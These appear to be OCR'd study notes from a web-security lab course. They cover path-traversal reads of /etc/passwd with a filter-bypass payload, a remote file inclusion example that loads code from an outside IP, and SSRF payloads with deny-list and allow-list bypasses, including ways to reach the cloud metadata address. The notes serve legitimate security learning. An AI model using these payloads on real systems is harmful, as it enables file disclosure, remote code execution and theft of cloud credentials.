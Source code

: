 ```
When we input ../../../../etc/passwd and the error is Warning: include(languages/etc/passwd)... this means the web application replaces the ../ with the empty string.
bypass: ....//....//....//....//....//etc/passwd	# PHP filter only matches and replaces the first subset string "../"

------------------------------------------------------------------
Remote File Inclusion - RFI
- One requirement for RFI is that the allow_url_fopen option needs to be on which allow us to inject a malicious URL as input 
example: http://webapp.thm/index.php?lang=http://111.111.111.111/command.php



```

===============================================================================
```
# SSRF

- when a server talk to another server or a subdomain.
we change the request that a server made to another server, and instead of the original requested server, we query another server or subdomain.
In this example, the attacker can control the server's subdomain to which the request is made. Take note of the payload ending in &x= being used to stop the remaining path from being appended to the end of the attacker's URL and instead turns it into a parameter (?x=) on the query string.
http://web.thm/stock?server=api&id=123
http://web.thm/stock?server=api.web.thm/api/user&x=&id=123	# &x=[empty string] stop the original query and send our query instead

find SSRF vuln:
When a full URL is used in a parameter in the address bar: http://web.thm/stock?sever=http://web.thm/store
A hidden field in a form:
A partial URL such as just the hostname: http://web.thm/stock?server=api
Or perhaps only the path of the URL: http://web.thm/form?dst=/form/contact

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as requestbin.com, your own HTTP server or Burp Suite's Collaborator client.

Deny list:
- A Deny List is where all requests are accepted apart from resources specified in a list or matching a particular pattern.
- localhost and 127.0.0.1 would appear on a deny list. Attackers can bypass a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.
- in cloud 169.254.169.254, which contains metadata and is in deny list. An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address 169.254.169.254.

Allow list:
if only url that starts with https://website.thm are allowed: An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as https://website.thm.attackers-domain.thm.

x/../private
```
